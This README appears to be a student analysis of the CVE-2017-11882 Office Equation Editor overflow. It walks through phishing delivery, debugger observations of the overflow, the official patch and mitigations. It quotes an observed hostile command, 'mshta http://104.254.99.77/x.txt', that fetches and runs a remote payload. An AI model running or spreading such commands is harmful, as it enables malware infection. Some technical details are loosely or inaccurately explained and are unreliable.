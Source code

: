 # Microsoft Office Memory Corruption (CVE-2017-11882)  
![Word Logo](https://github.com/tingsama/hacking-p2/blob/main/Word%20Logo.png)  

### Background
* __Age__: 17 year old vulnerability
* __What is it__: Run arbitrary code remotely without user interaction
* __Why it works__: Buffer overflow vulnerability inside equation editor (EQUEDT32.exe)
* __Who has been affected__: Users who installed
  * Microsoft Office 2007 Service Pack 3
  * Microsoft Office 2010 Service Pack 2 
  * Microsoft Office 2013 Service Pack 1 
  * Microsoft Office 2016
* __CVSS__:
  * The Common Vulnerability Scoring System
  * The score is 7.8 (high)
  * Really dangerous & should be fixed ASAP  
![CVSS](https://github.com/tingsama/hacking-p2/blob/main/CVSS.png)  
Figure 1:  CVSS score [1]


### It always starts from the internet phishing...
1.	A spam __email__
2.	An __attachment__
3.	A __.doc file__ in Rich Text Format (RTF)
4.	__Microsoft Office__ will automatically open it  
![Spam Email](https://github.com/tingsama/hacking-p2/blob/main/Spam%20Email.png)


### Process Monitor
It is an [advanced monitoring tool for Windows](https://nvd.nist.gov/vuln-metrics/cvss).  
It is used to monitor and display all the activities of file system in real-time. [1](https://en.wikipedia.org/wiki/Process_Monitor)  
* Unexpected operation named 'EQNEDT32.EXE'
* Command line has been called
* (Very like) a malicious host - 'mshta http://104.254.99.77/x.txt'  
![Process Monitor](https://github.com/tingsama/hacking-p2/blob/main/Process%20Monitor.png)  


### Burp Suite
It is a [web vulnerability scanner](https://portswigger.net/burp).  
It is a set of tools used for penetration testing of web applications. [reference 2](https://www.geeksforgeeks.org/what-is-burp-suite/g)  
* Unexpected 'GET' request 
* (Very like) a malicious host - 'mshta http://104.254.99.77/x.txt'  
![Burp Suite](https://github.com/tingsama/hacking-p2/blob/main/Burp%20Suite.png)  


### Steps after you click the malicious word file:
#### 1. Microsoft Word file load up  
Here microsoft word will load up and read and compile the stuff inside.  
![step 1](https://github.com/tingsama/hacking-p2/blob/main/step%201.png)  
#### 2. Execute Equation Editor  
Everyone used the equation editor before, to create the nice look equations.  
However, the equation editor is another individual program and Microsoft Word invokes its own process.  
In this case, everything inside the equation editor can skip all Microsoft protection bubbles.  
![step 2](https://github.com/tingsama/hacking-p2/blob/main/step%202.png)  
#### 3. Hacker overflowed the font name registers inside Equation Editor  
Before overflow EAX save the length of font name which is 16 bytes (Hex:00000010).  
And the detail inside the font name registers is “TIMES NEW ROMAN”.  
![step 3-1](https://github.com/tingsama/hacking-p2/blob/main/step%203-1.png)  
After overflow, EAX pointed to 0012F350 and overflowed all other registers.  
On memory 004115CF, it loads whatever is inside the ebp register and pushes into the EAX register.  
The ebp register is a two way pointer and linking between word document and equation editor.  
The hacker changed the ebp register value to 48 bytes and then it was loaded to the EAX register.  
![step 3-2](https://github.com/tingsama/hacking-p2/blob/main/step%203-2.png)  
#### 4. Overflow message  
Let now take a look at the 48 bytes detail inside the overflowed register beginning at address: 0012F350.  
From address 0012F350 to 0012F360 32 bytes are saving the hacker's mshta link and it can send a get request to this link and download the malicious software.  
Address: 0012F370 first 12 bytes are ‘20’ which are saving shell code inside but we cannot see it in detail through ASCii reader.   
The final 4 bytes are ‘12 0C 43 00’ which is the new EIP register address that the hacker wants us to jump to in the next step.  
![step 4](https://github.com/tingsama/hacking-p2/blob/main/step%204.png)  
#### 5. Redirect to new EIP address  
Here we can see at address: 00430C12 it call the Winexe program.  
![step 5](https://github.com/tingsama/hacking-p2/blob/main/step%205.png)  
#### 6. Winexe execute   
From the code here we can see the Winexe execute at address 00430C12 and talk to the EAX register as it input.  
In this case, inside the Winexe it will run shell code first, then send a get request to the hacker's link.  
![step 6](https://github.com/tingsama/hacking-p2/blob/main/step%206.png)  
#### 7. Download hacker’s malicious software   
Finally after everything executes and runs correctly, it will download the malicious software and hide in some specific hard finding place to continuously steal your personal information.  


### [How to protect yourself from this exploit](https://support.microsoft.com/en-us/topic/how-to-disable-equation-editor-3-0-7e000f58-cbf4-e805-b4b1-fde0243c9a92)
The best way to protect your machine from this vulnerability is patching.
However, if you decide not to patch, a simple way to protect your machine is to disable EQUAEDT32.exe which is the equation editor that has the vulnerability.
The following commands can update your registry to disable EQUAEDT32.exe.
If you have an Office software running on a x64 machine, then you can use the second command, otherwise the first command is your choice. [4]
![Update Registry](https://github.com/tingsama/hacking-p2/blob/main/Update%20Registry.png)  


### [Official Patch](https://blog.0patch.com/2017/11/official-patch-for-cve-2017-11882-meets.html)
The official patching for CVE-2017-11882 was done in a Patch Tuesday update in November 2017. The patching was mainly done at function sub_0041160F.
The difference of the patched function(left hand side) and the original function(right hand side) is shown below.
The left top block shows that a boundary check is added. This line of code reset the counter register to 0x20 if it is larger than or equal to 0x21.
The left bottom block added a buffer truncation. This code makes sure only 0x20 bytes are copied and zero-terminate. [5]
![Official Patc](https://github.com/tingsama/hacking-p2/blob/main/Official%20Patch.png)  


### How to avoid?
* Don’t skip patches.  
Simply __patch__ or __update__ the software can prevent an attack from happening. 
* Use a real-time anti-virus.  
Using a __anti-virus software__ can sometime be helpful.
* Filter your email.  
__Block__ the type of document that you don't use.  
__Do not click__ on the link or a document that looks suspicious. 
* Keep track of your websites. 
__Don’t enable online services__ or __create online accounts__ just because of promotion. 


Reference:
[1]"NVD - CVE-2017-11882", Nvd.nist.gov, 2021. [Online]. Available: https://nvd.nist.gov/vuln/detail/CVE-2017-11882. [Accessed: 18- Mar- 2021].
[2]Blogs.quickheal.com, 2021. [Online]. Available: https://blogs.quickheal.com/wp-content/uploads/2018/02/Fig3.png. [Accessed: 18- Mar- 2021].
[3]C. Hardy, Stack Buffer Overflows - a primer on smashing the stack using CVE-2017-11882. 2021.
[4]C. Hardy, CVE-2017-11882 - 3 ways to perform technical analysis, 1 easy way to protect. 2021.
[5]L. Treiber, "Microsoft's Manual Binary Patch For CVE-2017-11882 Meets 0patch", Blog.0patch.com, 2021. [Online]. Available: https://blog.0patch.com/2017/11/official-patch-for-cve-2017-11882-meets.html. [Accessed: 18- Mar- 2021].
